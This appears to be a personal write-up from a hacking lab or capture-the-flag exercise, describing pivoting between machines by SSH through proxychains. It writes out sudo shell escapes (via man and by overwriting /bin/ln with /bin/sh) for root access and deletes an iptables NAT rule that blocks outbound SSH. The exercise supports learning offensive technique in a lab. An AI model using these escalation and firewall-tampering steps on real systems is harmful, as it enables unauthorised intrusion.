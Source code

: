 ##### Attempt SSH on Port 1
```
proxychains ssh epicurus@9.9.9.8 -p 1
```
![[Pasted image 20250604175653.png]]

##### check sudo privileges
![[Pasted image 20250604175901.png]]
##### Try ssh to next hop
```
ssh minotaur@222.222.222.187
```
![[Pasted image 20250604180004.png]]
- the "#" would imply root
- @07-violence would imply we're on the remote machine.
#### However
![[Pasted image 20250604232401.png]]
- These commands reveal the machine is 06-heresy
	- the ssh command never left this machine or was redirected back to this machine

##### sudo man man
```
!/bin/bash
```
- While this shows root, its too limited to fix the SSH issues

##### sudo ln
```
sudo ln -fs /bin/sh /bin/ln
```
![[Pasted image 20250604232755.png]]
##### Doesn't show the rule
```
iptables -L -v -n
```
Does show the rule
```
iptables-save
```

##### Delete the rule preventing ssh
```
iptables -t nat -D OUTPUT -p tcp --dport 22 -j DNAT --to-destination 127.0.0.1:1
```
- since the connection is being used it will freeze the terminal and require a new one

##### Re-establish SSH
```
proxychains ssh epicurus@9.9.9.8 -p 1
```
